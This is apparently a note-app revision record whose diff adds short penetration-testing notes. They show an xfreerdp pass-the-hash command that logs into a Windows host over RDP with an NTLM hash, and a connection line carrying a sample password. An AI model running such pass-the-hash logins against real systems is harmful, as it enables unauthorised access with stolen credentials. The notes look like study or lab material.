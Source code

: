 id: 1912f391eef74c6bab85e149dbb8dea9
parent_id: e175b5f277cd4eee9371a1e98bac87c4
item_type: 1
item_id: 6600ab38b91a4e75aa7ceba9f0122487
item_updated_time: 1652060784741
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"se x\"],[-1,\"rdp\"],[1,\"freerdp\\\n\\\nThe first hash = computer hash, the second hash is the NTLM hash\\\n\\\n> `xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101`\\\n> \\\n> `# If you have .RDP files`\\\n> \\\n> xfreerdp connection.rdp /p:Pwd123! /f\"]],\"start1\":64,\"start2\":64,\"length1\":7,\"length2\":215}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-09T01:56:14.590Z
created_time: 2022-05-09T01:56:14.590Z
type_: 13